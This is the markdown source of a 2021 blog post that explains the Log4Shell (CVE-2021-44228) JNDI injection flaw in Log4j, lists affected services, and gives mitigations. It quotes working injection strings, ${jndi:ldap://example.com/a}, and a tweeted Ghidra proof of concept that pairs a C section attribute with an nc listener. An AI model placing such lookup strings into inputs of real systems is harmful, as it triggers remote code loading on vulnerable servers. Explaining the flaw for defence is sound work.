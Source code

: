 ```yaml
---
layout: post
title: "Entry 2"
date: 2021-12-10
permalink: /logs/entry-2
---
```

Yesterday, a high severity vulnerability{% sidenote 1 "[CVE-2021-44228](https://wiki2.org/en/Log4j){:target='_blank'}{:rel='noopener noreferrer'}" %} was discovered in the popular Java logging library log4j{% sidenote 2 "[Apache Log4j](https://wiki2.org/en/Log4j){:target='_blank'}{:rel='noopener noreferrer'}" %} that could lead to remote code execution (RCE).

{% newthought 'A few notes' %} about vulnerability
The log4j package uses JNDI{% sidenote 3 "[Java Naming and Directory Interface](https://wiki2.org/en/Java_Naming_and_Directory_Interface){:target='_blank'}{:rel='noopener noreferrer'}" %}. It is a standard API for directory service that allows a Java program to find data (in the form of a Java object) through a directory.

A Java program can use JNDI and LDAP together to find a Java object containing data that it might need. For example, in the standard Java documentation there’s an [example](https://docs.oracle.com/javase/jndi/tutorial/getStarted/examples/directory.html){:target='_blank'}{:rel='noopener noreferrer'} that talks to an LDAP server to retrieve attributes from an object. It uses the URL `ldap://localhost:389/o=JNDITutorial` to find the JNDITutorial object from an LDAP server running on the same machine (localhost) on port 389 and goes on to read attributes from it.

As the tutorial says _“If your LDAP server is located on another machine or is using another port, then you need to edit the LDAP URL”_. Thus the LDAP server could be running on a different machine and potentially anywhere on the Internet. That flexibility means that if an attacker could control the LDAP URL they’d be able to cause a Java program to load an object from a server under their control.

But in the case of log4j an attacker can control the LDAP URL by causing log4j to try to write a string like ${jndi:ldap://example.com/a}. If that happens then log4j will connect to the LDAP server at example.com and retrieve the object.

This happens because log4j contains [special syntax](https://logging.apache.org/log4j/2.x/manual/configuration.html#PropertySubstitution){:target='_blank'}{:rel='noopener noreferrer'} in the form ${prefix:name} where prefix is one of a number of different [Lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html){:target='_blank'}{:rel='noopener noreferrer'} where name should be evaluated. For example, ${java:version} is the current running version of Java.

{% newthought 'Impact' %}
Many services are vulnerable to this exploit. Cloud services like Steam, Apple iCloud, and apps like Minecraft have already been found to be vulnerable.

Ghidra's vulnerable too:

<blockquote class="twitter-tweet"><p lang="en" dir="ltr">Ghidra&#39;s vulnerable to log4j:<br>__attribute__((__section__(&quot;.note.${jndi:ldap://127.0.0.1:1234/abc}&quot;)))<br>int a = 1;<br>int main(){}<br>$ gcc hello.c<br>$ nc -l 1234<br>Load into Ghidra; it connects to 127.0.0.1:1234.<br>Ghidra 10.0.2, macOS OpenJDK Corretto 11.0.4.11.1<a href="https://t.co/Qu1psCjtY6">https://t.co/Qu1psCjtY6</a></p>&mdash; Zhuowei Zhang (@zhuowei) <a href="https://twitter.com/zhuowei/status/1469186818549719042?ref_src=twsrc%5Etfw">December 10, 2021</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>

The underlying truth behind all of this is:

<blockquote class="twitter-tweet"><p lang="en" dir="ltr">The lesson of Java is that some of the best engineers at the time created a secure byte-code VM and JIT, only for Design-By-Committee to come in and say &quot;maybe someone would want the Logger to load remote code via JNDI and LDAP. Let&#39;s add that!&quot;.</p>&mdash; postmodern (@postmodern_mod3) <a href="https://twitter.com/postmodern_mod3/status/1469401307005939712?ref_src=twsrc%5Etfw">December 10, 2021</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>

{% newthought 'Mitigation' %}

1. Upgrading to [new version](https://logging.apache.org/log4j/2.x/download.html){:target='_blank'}{:rel='noopener noreferrer'}.
2. If you can't upgrade, set the property:

{% highlight %}
log4j2.formatMsgNoLookups=true
{% endhighlight %}

3. If none of the above works, you can remove the `JndiLookup` class from the classpath:
{% highlight %}
zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
{% endhighlight %}
This command will remove the class from the log4j-core.

{% newthought 'Keypoints' %}

And the gist of it comes down to:

{% maincolumn 'https://imgs.xkcd.com/comics/dependency.png' '<em>Dependency</em>', from [xkcd](https://xkcd.com/2347/){:target="_blank"}{:rel="noopener noreferrer"} %}

----

{% newthought 'Further Information' %}

- [0] [https://www.lunasec.io/docs/blog/log4j-zero-day/](https://www.lunasec.io/docs/blog/log4j-zero-day/){:target='_blank'}{:rel='noopener noreferrer'}
- [1] [https://news.ycombinator.com/item?id=29504755](https://news.ycombinator.com/item?id=29504755){:target='_blank'}{:rel='noopener noreferrer'}
- [2] [https://www-cnblogs-com.translate.goog/yyhuni/p/15088134.html?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en-US](https://www-cnblogs-com.translate.goog/yyhuni/p/15088134.html?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en-US){:target='_blank'}{:rel='noopener noreferrer'}
- [3] [https://blog.cloudflare.com/inside-the-log4j2-vulnerability-cve-2021-44228/](https://blog.cloudflare.com/inside-the-log4j2-vulnerability-cve-2021-44228/){:target='_blank'}{:rel='noopener noreferrer'}
- [4] [https://blog.cloudflare.com/cve-2021-44228-log4j-rce-0-day-mitigation/](https://blog.cloudflare.com/cve-2021-44228-log4j-rce-0-day-mitigation/){:target='_blank'}{:rel='noopener noreferrer'}
- [5] [https://github.com/tangxiaofeng7/apache-log4j-poc](https://github.com/tangxiaofeng7/apache-log4j-poc){:target='_blank'}{:rel='noopener noreferrer'}
- [6] [https://github.com/YfryTchsGD/Log4jAttackSurface](https://github.com/YfryTchsGD/Log4jAttackSurface){:target='_blank'}{:rel='noopener noreferrer'}
- [7] [https://www.veracode.com/blog/research/exploiting-jndi-injections-java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java){:target='_blank'}{:rel='noopener noreferrer'}




 